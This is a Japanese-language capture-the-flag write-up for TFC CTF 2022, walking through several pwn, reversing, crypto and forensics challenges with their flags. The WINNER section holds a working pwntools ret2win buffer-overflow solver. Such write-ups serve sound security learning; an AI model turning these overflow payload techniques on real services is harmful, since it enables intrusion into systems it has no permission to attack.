



# TFC CTF 2022

https://ctftime.org/event/1647

- Team: Ir0nMaiden
- Points: 600
- Position: 260/1275

index

- [RANDOM/PWN](#randompwn)
- [WINNER/PWN](#winnerpwn)
- [SOURCE/REVERSE](#sourcereverse)
- [COLORS/REVERSE](#colorsreverse)
- [OBSCURE/CRYPTO](#obscurecrypto)
- [BBBBBBBBBB/FORENSICS](#bbbbbbbbbbforensics)

## RANDOM/PWN

### DESCRIPTION
Author: tomadimitrie, WARMUP

I created a random number generator as a project. Unfortunately it only has one option, but I will add more soon (or not)!

### SOLUTION

デコンパイルをすると、標準入力から受け取った値が`1337`のときフラグを出力していました。

### FLAG

```
TFCCTF{Th3r3_w3r3_m0r3_0pt10n5_4ft3r_4ll!}
```

## WINNER/PWN

### DESCRIPTION

Author: tomadimitrie, EASY

You just won a contest! What do you do?

### SOLUTION

GLIBC_2.34が必要とのことで、ビルドが面倒なのでDockerイメージを使いました。

```bash
docker pull frolvlad/alpine-glibc:alpine-3.15_glibc-2.34
# after runnning
apk add python3 py3-pip strace
pip3 install pwntools
```

デコンパイルでmain関数をみるとscanfで読み取って終了しているだけでした。他の関数を見るとFLAGを出力する関数があったので、RIP系だと判断できました。

```bash
004011b6  int64_t win()

004011e6  {
004011e6      return printf(&data_40200d, getenv("FLAG"));
004011c5  }
```

straceを使って、SIGSEGVが発生する文字数を調べると120文字でした。

```bash
$ python3 -c 'print("A"*120, end="")' | strace -i ./winner
////////////
[00007efd0e08f212] read(0, "A", 1)      = 1
[00007efd0e08f212] read(0, "", 1)       = 0
[00007efd0dfbb506] --- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=NULL} ---
[????????????????] +++ killed by SIGSEGV +++
Segmentation fault
```

あとはret命令のアドレスとwin関数のアドレスを調べて、ソルバーを書きました。

```
from pwn import *

binfile = "./winner"
context.binary = binfile
elf = ELF(binfile)

# ROPgadget --binary ./winner | grep ": ret"
ret = 0x40101a # ret
print(ret)

win = elf.symbols['win']
HOST='localhost'
PORT=8888

# conn = process(binfile)
conn = remote(HOST, PORT)
conn.recvuntil(b':')

payload = b'A' * 120 + p64(ret) + p64(win)

conn.sendline(payload)
p = conn.interactive()
print(p)
```

### FLAG

```
TFCCTF{C0ngr4tulati0n5_0n_th3_pr1z3!}
```

## SOURCE/REVERSE

### DESCRIPTION
Author: tomadimitrie, WARMUP

My intern likes to hide things in apps, but they don't give me the source code. What can I do?

### SOLUTION

stringsをするとフラグが書かれていました。これフラグのルール満たしていなくね？

### FLAG

```
TFC{3v3ryth1ng_1s_0p3n_5ourc3_1f_y0u try_h4rd_3n0ugh}
```

## COLORS/REVERSE

### DESCRIPTION

Author: tomadimitrie, MEDIUM

A wonderful color generator! Only available for iOS. Sorry!

The app extracts some data from the user's phone. What is it?: 解けなかった

The app connects to a server to upload the data. What is the URL?：以下書いていく

### SOLUTION

ipaファイルをunzipしたところ、`colors` という実行ファイルが出てきました。stringsを実行すると`http://localhost:8080`が見えました。

### FLAG

```
http://localhost:8080
```

### REF

https://sei0o.hateblo.jp/entry/2017/12/07/170410

## OBSCURE/CRYPTO

### DESCRIPTION



### SOLUTION

気合いでなんとかする。エディタに展開するとまだ読めるかも？

### FLAG

```
TFCCTF{s3cur1ty_thr0ugh_0bscur1ty}
```


## BBBBBBBBBB/FORENSICS
### DESCRIPTION

Author: hofill

BBBBBBBBBB BBBBBBBBBB BBBBBBBBBB BBBBBBBBBB BBBBBBBBBB BBBBBBBBBB BBBBBBBBBB BBBBBBBBBB

### SOLUTION

配られた画像ファイルが破損していたので、バイナリエディタで開くと`BBBBBBBBBB`というデータ列が書き込まれていました。それらを全て取り除くと、プレビューアプリで画像を開くことができ、そこにフラグが書かれていました。




### FLAG

```
TFCCTF{the_fl4g_1s_th3_w4y}
```


---

解けなかった問題

## CRASH/FORENSICS

### DESCRIPTION

Author: hofill, WARMUP

Oh no! My computer crashed. Can you help me find out why?

### SOLUTION(やったとこまで)

DMPファイルが配られたため、volatilityで解析を試みましたが、Profileが不明でした。

```
python2.7 vol.py -f ./MEMORY.DMP imageinfo
Volatility Foundation Volatility Framework 2.6.1
INFO    : volatility.debug    : Determining profile based on KDBG search...
          Suggested Profile(s) : No suggestion (Instantiated with Win10x64_19041)
                     AS Layer1 : FileAddressSpace (/home/ubuntu/volatility/MEMORY.DMP)
                      PAE type : No PAE
                           DTB : 0x1ae002L
             KUSER_SHARED_DATA : 0xfffff78000000000L
```


## MAFIOSO/CRYPTO

### DESCRIPTION
Author: hofill, WARMUP

A soldier was walking around the streets of Sicily, late at night, with THE Consigliere. Same soldier, the very next day, found in a ditch with a note in his breast pocket. It read:

f433c3e883a1389482c0b652660580f36ea037434fd4a67d193bc1cdc9b2cc34

Flag format: TFCCTF{secret_message}
### SOLUTION(やったとこまで)

hash値っぽいと思い、オンラインの解析ツールにつっこむと英文らしき文字列が出てきました。

https://crackstation.net/



### FLAG

```
TFCCTF{snitchesgetstitches}
```
